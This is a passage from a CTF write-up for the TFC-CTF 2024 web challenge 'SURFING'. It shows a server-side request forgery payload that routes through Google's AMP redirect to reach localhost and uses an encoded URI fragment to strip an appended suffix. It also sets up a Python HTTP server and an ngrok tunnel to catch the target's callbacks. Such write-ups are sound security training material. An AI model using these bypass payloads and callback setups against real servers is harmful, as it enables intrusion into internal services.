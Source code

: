 Huh? Google respond 404 to us? Oh, I forgot the server appends `.png` to our provided URL.

To fix this, we can add a [URI fragment](https://en.wikipedia.org/wiki/URI_fragment) (`#`, URL encoded: `%23`) at the end of the localhost's port:

```
http://google.com/amp/s/localhost:8000/%23
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804221035.png)

Now we're getting HTTP status code "500 INTERNAL SERVER ERROR"...

To figure out why this weird behavior, we can setup our own HTTP server for testing.

- Setup a simple HTTP server using Python's module `http.server`

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SURFING)-[2024.08.04|22:11:44(HKT)]
└> python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Setup port forwarding via `ngrok` with **HTTP scheme**

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SURFING)-[2024.08.04|22:11:44(HKT)]
└> ngrok http 80 --scheme http 
[...]
Forwarding                    http://cc7d-{REDACTED}.ngrok-free.app -> http://localhost:80             
[...]
```

Now we can try to send the request again:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804221653.png)

Tunnel not found??

Let's try HTTPS scheme:

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SURFING)-[2024.08.04|22:17:58(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://66ea-{REDACTED}.ngrok-free.app -> http://localhost:80            
[...]
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804221900.png)

```shell
[...]
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [04/Aug/2024 22:18:41] "GET / HTTP/1.1" 200 -
```
